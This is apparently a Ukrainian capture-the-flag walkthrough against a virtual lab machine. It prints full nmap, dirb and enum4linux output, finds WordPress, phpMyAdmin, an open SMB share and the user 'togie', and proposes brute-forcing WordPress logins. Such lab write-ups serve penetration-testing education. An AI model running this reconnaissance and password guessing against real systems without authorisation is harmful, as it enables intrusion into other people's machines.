## 1. Встановлення IP адреси цільової машини:


## 2. Сканування сервісів, що працюють на цільовій машині:

```sh
[09:07:33] ☢kali:~$ nmap -sC -sV -p-  10.0.2.28
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-06-22 09:07 EEST
Nmap scan report for 10.0.2.28
Host is up (0.00035s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 b5:38:66:0f:a1:ee:cd:41:69:3b:82:cf:ad:a1:f7:13 (DSA)
|   2048 58:5a:63:69:d0:da:dd:51:cc:c1:6e:00:fd:7e:61:d0 (RSA)
|   256 61:30:f3:55:1a:0d:de:c8:6a:59:5b:c9:9c:b4:92:04 (ECDSA)
|_  256 1f:65:c0:dd:15:e6:e4:21:f2:c1:9b:a3:b6:55:a0:45 (ED25519)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Silex v2.2.7
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Backnode
| http-robots.txt: 4 disallowed entries 
|_/old/ /test/ /TR2/ /Backnode_files/
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
| irc-info: 
|   server: Admin.local
|   users: 1
|   servers: 1
|   chans: 0
|   lusers: 1
|   lservers: 0
|   source ident: nmap
|   source host: 10.0.2.4
|_  error: Closing link: (nmap@10.0.2.4) [Client exited]
MAC Address: 08:00:27:8E:C1:C8 (Oracle VirtualBox virtual NIC)
Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2026-06-22T06:08:05
|_  start_date: N/A
|_nbstat: NetBIOS name: LAZYSYSADMIN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: mean: -3h19m58s, deviation: 5h46m24s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: lazysysadmin
|   NetBIOS computer name: LAZYSYSADMIN\x00
|   Domain name: \x00
|   FQDN: lazysysadmin
|_  System time: 2026-06-22T16:08:05+10:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.54 seconds
```


## 3. Пошук прихованих директорій на вебсервері:

```sh
[09:07:03] ☢kali:~$ dirb http://10.0.2.28

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Jun 22 09:12:48 2026
URL_BASE: http://10.0.2.28/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.0.2.28/ ----
==> DIRECTORY: http://10.0.2.28/apache/                                                                                                                                  
+ http://10.0.2.28/index.html (CODE:200|SIZE:36072)                                                                                                                      
+ http://10.0.2.28/info.php (CODE:200|SIZE:77201)                                                                                                                        
==> DIRECTORY: http://10.0.2.28/javascript/                                                                                                                              
==> DIRECTORY: http://10.0.2.28/old/                                                                                                                                     
==> DIRECTORY: http://10.0.2.28/phpmyadmin/                                                                                                                              
+ http://10.0.2.28/robots.txt (CODE:200|SIZE:92)                                                                                                                         
+ http://10.0.2.28/server-status (CODE:403|SIZE:289)                                                                                                                     
==> DIRECTORY: http://10.0.2.28/test/                                                                                                                                    
==> DIRECTORY: http://10.0.2.28/wordpress/                                                                                                                               
==> DIRECTORY: http://10.0.2.28/wp/                                                                                                                                      
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/apache/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/javascript/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/old/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/phpmyadmin/ ----
+ http://10.0.2.28/phpmyadmin/favicon.ico (CODE:200|SIZE:18902)                                                                                                          
+ http://10.0.2.28/phpmyadmin/index.php (CODE:200|SIZE:8258)                                                                                                             
==> DIRECTORY: http://10.0.2.28/phpmyadmin/js/                                                                                                                           
+ http://10.0.2.28/phpmyadmin/libraries (CODE:403|SIZE:296)                                                                                                              
==> DIRECTORY: http://10.0.2.28/phpmyadmin/locale/                                                                                                                       
+ http://10.0.2.28/phpmyadmin/phpinfo.php (CODE:200|SIZE:8260)                                                                                                           
+ http://10.0.2.28/phpmyadmin/setup (CODE:401|SIZE:455)                                                                                                                  
==> DIRECTORY: http://10.0.2.28/phpmyadmin/themes/                                                                                                                       
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/test/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/wordpress/ ----
+ http://10.0.2.28/wordpress/index.php (CODE:301|SIZE:0)                                                                                                                 
==> DIRECTORY: http://10.0.2.28/wordpress/wp-admin/                                                                                                                      
==> DIRECTORY: http://10.0.2.28/wordpress/wp-content/                                                                                                                    
==> DIRECTORY: http://10.0.2.28/wordpress/wp-includes/                                                                                                                   
+ http://10.0.2.28/wordpress/xmlrpc.php (CODE:405|SIZE:42)                                                                                                               
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/wp/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/phpmyadmin/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/phpmyadmin/locale/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/phpmyadmin/themes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/wordpress/wp-admin/ ----
+ http://10.0.2.28/wordpress/wp-admin/admin.php (CODE:302|SIZE:0)                                                                                                        
==> DIRECTORY: http://10.0.2.28/wordpress/wp-admin/css/                                                                                                                  
==> DIRECTORY: http://10.0.2.28/wordpress/wp-admin/images/                                                                                                               
==> DIRECTORY: http://10.0.2.28/wordpress/wp-admin/includes/                                                                                                             
+ http://10.0.2.28/wordpress/wp-admin/index.php (CODE:302|SIZE:0)                                                                                                        
==> DIRECTORY: http://10.0.2.28/wordpress/wp-admin/js/                                                                                                                   
==> DIRECTORY: http://10.0.2.28/wordpress/wp-admin/maint/                                                                                                                
==> DIRECTORY: http://10.0.2.28/wordpress/wp-admin/network/                                                                                                              
==> DIRECTORY: http://10.0.2.28/wordpress/wp-admin/user/                                                                                                                 
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/wordpress/wp-content/ ----
+ http://10.0.2.28/wordpress/wp-content/index.php (CODE:200|SIZE:0)                                                                                                      
==> DIRECTORY: http://10.0.2.28/wordpress/wp-content/plugins/                                                                                                            
==> DIRECTORY: http://10.0.2.28/wordpress/wp-content/themes/                                                                                                             
==> DIRECTORY: http://10.0.2.28/wordpress/wp-content/uploads/                                                                                                            
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/wordpress/wp-includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/wordpress/wp-admin/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/wordpress/wp-admin/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/wordpress/wp-admin/includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/wordpress/wp-admin/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/wordpress/wp-admin/maint/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/wordpress/wp-admin/network/ ----
+ http://10.0.2.28/wordpress/wp-admin/network/admin.php (CODE:302|SIZE:0)                                                                                                
+ http://10.0.2.28/wordpress/wp-admin/network/index.php (CODE:302|SIZE:0)                                                                                                
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/wordpress/wp-admin/user/ ----
+ http://10.0.2.28/wordpress/wp-admin/user/admin.php (CODE:302|SIZE:0)                                                                                                   
+ http://10.0.2.28/wordpress/wp-admin/user/index.php (CODE:302|SIZE:0)                                                                                                   
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/wordpress/wp-content/plugins/ ----
+ http://10.0.2.28/wordpress/wp-content/plugins/index.php (CODE:200|SIZE:0)                                                                                              
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/wordpress/wp-content/themes/ ----
+ http://10.0.2.28/wordpress/wp-content/themes/index.php (CODE:200|SIZE:0)                                                                                               
                                                                                                                                                                         
---- Entering directory: http://10.0.2.28/wordpress/wp-content/uploads/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Mon Jun 22 09:13:30 2026
DOWNLOADED: 41508 - FOUND: 20

```

## 4. Перші результати:
---
Nikto та GoBuster видали однакові результати, а саме:

* Встановлений WordPress за шляхом `/wordpress`
* Доступна функція `phpinfo()` за шляхом `/info.php`
* Встановлений веб-інтерфейс `phpMyAdmin`

## 5. Дослідження WordPress



* передивляємось повідомлення форума:



Єдиний висновок - адмін залишив обліковий запис за замовчанням. Тобто можна спробувати wpscan з брутфорсов за словником.

## 6. Дослідження сервісу SMB (Самба)

```sh
enum4linux -a 10.0.2.28
```
### 6.1. Повний вивід результатів:

```sh
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Mon Jun 22 09:58:14 2026

 =========================================( Target Information )=========================================
                                                                                                                                                                          
Target ........... 10.0.2.28                                                                                                                                              
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 =============================( Enumerating Workgroup/Domain on 10.0.2.28 )=============================
                                                                                                                                                                          
                                                                                                                                                                          
[+] Got domain/workgroup name: WORKGROUP                                                                                                                                  
                                                                                                                                                                          
                                                                                                                                                                          
 =================================( Nbtstat Information for 10.0.2.28 )=================================
                                                                                                                                                                          
Looking up status of 10.0.2.28                                                                                                                                            
        LAZYSYSADMIN    <00> -         B <ACTIVE>  Workstation Service
        LAZYSYSADMIN    <03> -         B <ACTIVE>  Messenger Service
        LAZYSYSADMIN    <20> -         B <ACTIVE>  File Server Service
        WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
        WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

        MAC Address = 00-00-00-00-00-00

 =====================================( Session Check on 10.0.2.28 )=====================================
                                                                                                                                                                          
                                                                                                                                                                          
[+] Server 10.0.2.28 allows sessions using username '', password ''                                                                                                       
                                                                                                                                                                          
                                                                                                                                                                          
 ==================================( Getting domain SID for 10.0.2.28 )==================================
                                                                                                                                                                          
Domain Name: WORKGROUP                                                                                                                                                    
Domain Sid: (NULL SID)

[+] Can't determine if host is part of domain or part of a workgroup                                                                                                      
                                                                                                                                                                          
                                                                                                                                                                          
 ====================================( OS information on 10.0.2.28 )====================================
                                                                                                                                                                          
                                                                                                                                                                          
[E] Can't get OS info with smbclient                                                                                                                                      
                                                                                                                                                                          
                                                                                                                                                                          
[+] Got OS info for 10.0.2.28 from srvinfo:                                                                                                                               
        LAZYSYSADMIN   Wk Sv PrQ Unx NT SNT Web server                                                                                                                    
        platform_id     :       500
        os version      :       6.1
        server type     :       0x809a03


 =========================================( Users on 10.0.2.28 )=========================================
                                                                                                                                                                          
Use of uninitialized value $users in print at ./enum4linux.pl line 972.                                                                                                   
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 975.

Use of uninitialized value $users in print at ./enum4linux.pl line 986.
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 988.

 ===================================( Share Enumeration on 10.0.2.28 )===================================
                                                                                                                                                                          
                                                                                                                                                                          
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        share$          Disk      Sumshare
        IPC$            IPC       IPC Service (Web server)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            

[+] Attempting to map shares on 10.0.2.28                                                                                                                                 
                                                                                                                                                                          
//10.0.2.28/print$      Mapping: DENIED Listing: N/A Writing: N/A                                                                                                         
//10.0.2.28/share$      Mapping: OK Listing: OK Writing: N/A

[E] Can't understand response:                                                                                                                                            
                                                                                                                                                                          
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*                                                                                                                                
//10.0.2.28/IPC$        Mapping: N/A Listing: N/A Writing: N/A

 =============================( Password Policy Information for 10.0.2.28 )=============================
                                                                                                                                                                          
                                                                                                                                                                          

[+] Attaching to 10.0.2.28 using a NULL share

[+] Trying protocol 139/SMB...

[+] Found domain(s):

        [+] LAZYSYSADMIN
        [+] Builtin

[+] Password Info for Domain: LAZYSYSADMIN

        [+] Minimum password length: 5
        [+] Password history length: None
        [+] Maximum password age: Not Set
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: None
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: Not Set


[+] Retieved partial password policy with rpcclient:                                                                                                                      
                                                                                                                                                                          
                                                                                                                                                                          
Password Complexity: Disabled                                                                                                                                             
Minimum Password Length: 5


 ========================================( Groups on 10.0.2.28 )========================================
                                                                                                                                                                          
                                                                                                                                                                          
[+] Getting builtin groups:                                                                                                                                               
                                                                                                                                                                          
                                                                                                                                                                          
[+]  Getting builtin group memberships:                                                                                                                                   
                                                                                                                                                                          
                                                                                                                                                                          
[+]  Getting local groups:                                                                                                                                                
                                                                                                                                                                          
                                                                                                                                                                          
[+]  Getting local group memberships:                                                                                                                                     
                                                                                                                                                                          
                                                                                                                                                                          
[+]  Getting domain groups:                                                                                                                                               
                                                                                                                                                                          
                                                                                                                                                                          
[+]  Getting domain group memberships:                                                                                                                                    
                                                                                                                                                                          
                                                                                                                                                                          
 ====================( Users on 10.0.2.28 via RID cycling (RIDS: 500-550,1000-1050) )====================
                                                                                                                                                                          
                                                                                                                                                                          
[I] Found new SID:                                                                                                                                                        
S-1-22-1                                                                                                                                                                  

[I] Found new SID:                                                                                                                                                        
S-1-5-32                                                                                                                                                                  

[I] Found new SID:                                                                                                                                                        
S-1-5-32                                                                                                                                                                  

[I] Found new SID:                                                                                                                                                        
S-1-5-32                                                                                                                                                                  

[I] Found new SID:                                                                                                                                                        
S-1-5-32                                                                                                                                                                  

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                                                               
                                                                                    S-1-22-1-1000 Unix User\togie (Local User)                                                                                                                                

[+] Enumerating users using SID S-1-5-21-2952042175-1524911573-1237092750 and logon username '', password ''                                                              
                                                                                                                                                                          
S-1-5-21-2952042175-1524911573-1237092750-501 LAZYSYSADMIN\nobody (Local User)                                                                                            
S-1-5-21-2952042175-1524911573-1237092750-513 LAZYSYSADMIN\None (Domain Group)

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''                                                                                               
                                                                                                                                                                          
S-1-5-32-544 BUILTIN\Administrators (Local Group)                                                                                                                         
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

 =================================( Getting printer info for 10.0.2.28 )=================================
                                                                                    No printers returned.                                                                                                                                                  
enum4linux complete on Mon Jun 22 09:58:27 2026
```
### 6.2 Висновки по результатах дослідження SMB

Маємо обліковий запис локального користувача:
S-1-22-1-1000 Unix User\togie (Local User)

### 6.3. Спроба зайти на самбу









Переглядаємо зміст файлів з метою отримання корисної інформації, особливу увагу приділяємо файлу *deets.txt*



Також маємо корисну інформацію у файлі *wp-config.php*

